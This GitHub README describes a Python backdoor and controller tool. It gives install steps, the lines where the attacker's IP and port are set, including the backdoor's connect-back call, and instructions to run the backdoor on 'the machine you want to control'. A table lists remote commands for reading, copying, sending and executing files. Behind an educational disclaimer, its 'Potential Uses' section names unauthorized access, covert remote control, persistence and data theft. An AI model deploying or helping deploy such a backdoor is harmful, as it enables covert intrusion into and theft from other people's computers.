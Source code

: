 # Backdoor-And-Server 💻🔗

- Welcome to the Backdoor-And-Server project, a powerful yet educational server-client Python application that enables you to remotely execute commands on the server from the backdoor. 

## Warning 🚨
**Please note that this project is intended for educational and research purposes only. Use it responsibly and only on devices and systems for which you have explicit authorization. The author of this project is not responsible for any misuse or illegal activities involving this software.**

## Table of Contents

1. [Installation Process](#installation-process) 📥
2. [Pre-Execution Setup](#pre-execution-setup) ⏮️
3. [Execution](#execution) 🏃‍♂️
4. [Available Commands](#available-commands) 💻
5. [Potential Uses](#potential-uses) 💡

## Installation Process 📥

- Let's get you started with Backdoor-And-Server. First, clone the repository and navigate to the `Backdoor-And-Server` directory:

```bash
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

## Requirements 🛠️

Next, install the requirements using pip3 with the following instructions:

For **Server.py**
```
$ pip3 install pyautogui
```
For **Backdoor.py**
```
$ pip3 install tqdm
```

## Pre Execution ⏮️

- On line number **137** of **server.py** file
```
137. sock.bind(('xx.xxx.xx.xx',xxxx)) #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```
- On line number **153** of **backdoor.py** file
```
153. s.connect(('xx.xxx.xx.xx',xxxx))  #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```

## Execution 🏃‍♂️

- Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
- Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
- This will establish a connection with the server, and you can start sending commands to be executed on the server.🛜

## Available Commands 💡

- Here's a table of the commands you can run on the server from the client:

| Command                | Description                                                     |
|------------------------|-----------------------------------------------------------------|
| `ls`                   | List the files and directories in the current directory.        |
| `cd <foldername>`      | Change the current directory to the specified folder.           |
| `cd ..`                | Navigate to the parent directory.                               |
| `pwd`                  | Print the current working directory.                            |
| `cat`                  | Display the contents of a text file.                            |
| `python1 <filename>`   | Execute a Python 1.x script with the specified filename.        |
| `python3 <filename>`   | Execute a Python 3.x script with the specified filename.        |
| `copy <filename>`      | Copy a file from the client to the server.                      |
| `bye`                  | Disconnect from the server.                                     |
| `scrst`                | Command description not provided.                               |
| `send <filename>`      | Send a file to the server.                                      |
| `help`                 | Display a list of available commands.                           |



## Potential Uses 🌟

- Backdoor and server can be used for:

-Unauthorized Access: Malicious actors use backdoors to gain unauthorized access to a computer system, network, or device. This unauthorized access can lead to data theft, surveillance, or further exploitation.

-Remote Control: Backdoors provide remote control over a compromised system. Attackers can manipulate the victim's computer, executing commands and actions without the user's knowledge or consent.

-Persistence: Backdoors are often used to maintain a persistent presence within a compromised network or system. This allows attackers to maintain access even if initial security flaws are patched.

-Data Theft: Backdoors enable the exfiltration of sensitive data, such as personal information, financial records, or intellectual property, which can then be misused or sold.
